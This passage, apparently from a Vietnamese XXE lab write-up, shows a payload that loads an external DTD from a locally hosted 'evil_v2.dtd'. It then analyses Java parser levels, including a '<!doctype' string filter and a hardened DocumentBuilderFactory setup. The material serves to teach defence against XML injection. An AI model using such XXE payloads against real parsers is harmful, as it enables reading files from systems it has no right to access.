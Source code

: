 Tiến hành host nó lên localhost với port là 8000.

Sau đó ta tiến hành truyền payload vào:

```xml 
<!DOCTYPE foo PUBLIC "X" "http://localhost:8000/evil_v2.dtd">
<foo>&x;</foo>
```

Ở đây ta dùng `PUBLIC` cùng với đó là biến `X` khi truyền vào nó sẽ gọi file trong localhost mà mình đã tạo sẵn payload và truyền xml vào.

![image](https://hackmd.io/_uploads/BJ0Qs4L3xx.png)

Thành công khai thác ở level này.

#### Level 3:

```java 
public String parseLevel3(String xml) {
        if (xml.toLowerCase().contains("<!doctype")) {
            return "Malicious DTD detected by filter!";
        }
        return parseLevel1(xml);
    }
```

Ở level 3 này có thể thấy cụm `<!doctype` đã bị filter lại làm cho việc khai thác trở nên không thể.

Level 3 hiện TẮT khả năng XXE chỉ bằng một filter duy nhất vào chuỗi “<!doctype”. Chuẩn XML không cho viết DOCTYPE “biến tấu” hợp lệ mà không chứa chuỗi này → Không có DTD → Không khai báo entity → Không XXE đọc file. Không có cơ chế phụ nào (XInclude/schema/XSLT) để pivot. => Không còn vector XXE thực tế nào.

Nên đây là một level gọi là secure vì không có doctype thì hầu như không payload nào XXE còn hoạt động được nữa.

#### Level 4:

```java 
public String parseLevel4(String xml) {
        try {
            Document doc = createSecureBuilder().parse(new InputSource(new StringReader(xml)));
            return "Parsed XML content (securely): " + doc.getDocumentElement().getTextContent();
        } catch (Exception e) { return "Error: " + e.getMessage(); }
    }
```

Ở đây ta gọi đến hàm `createSecureBuilder()`:

```java 
    private DocumentBuilder createSecureBuilder() throws ParserConfigurationException {
        DocumentBuilderFactory dbf = DocumentBuilderFactory.newInstance();
        dbf.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
        dbf.setFeature("http://xml.org/sax/features/external-general-entities", false);
        dbf.setFeature("http://xml.org/sax/features/external-parameter-entities", false);
        dbf.setXIncludeAware(false);
        dbf.setExpandEntityReferences(false);
        return dbf.newDocumentBuilder();
    }
```
